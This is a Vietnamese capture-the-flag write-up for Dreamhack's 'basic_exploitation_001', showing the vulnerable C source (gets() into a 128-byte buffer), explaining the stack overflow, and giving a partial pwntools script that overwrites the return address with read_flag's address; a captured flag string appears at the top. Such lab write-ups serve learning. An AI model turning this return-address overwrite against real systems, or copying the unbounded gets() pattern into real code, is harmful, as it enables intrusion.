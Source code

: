 > ***DH{465dd453b2a25a26a847a93d3695676d}***

# [basic_exploitation_001](https://dreamhack.io/wargame/challenges/3)
```c 
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    gets(buf);

    return 0;
}
```
- Nhìn vào code ta thấy biến `buf` khai báo 0x80 = 128 byte nhưng dùng hàm `gets` để nhập vào không giới hạn nên có lỗi `buffer overflow`
- Có hàm dùng để đọc flag là `read_flag` nên ta ghi đè địa chỉ hàm này vào địa chỉ trả về của hàm `main`
![image](https://hackmd.io/_uploads/H1BCkQXP0.png)

### Script
```python=
#!/usr/bin/python3

from pwn import *

p = remote('host3.dreamhack.games', 22411)

context.arch = 'i386'

read_flag = 0x80485b9
ofset = 132

payload = b'A'*ofset
payload += p32(read_flag)
```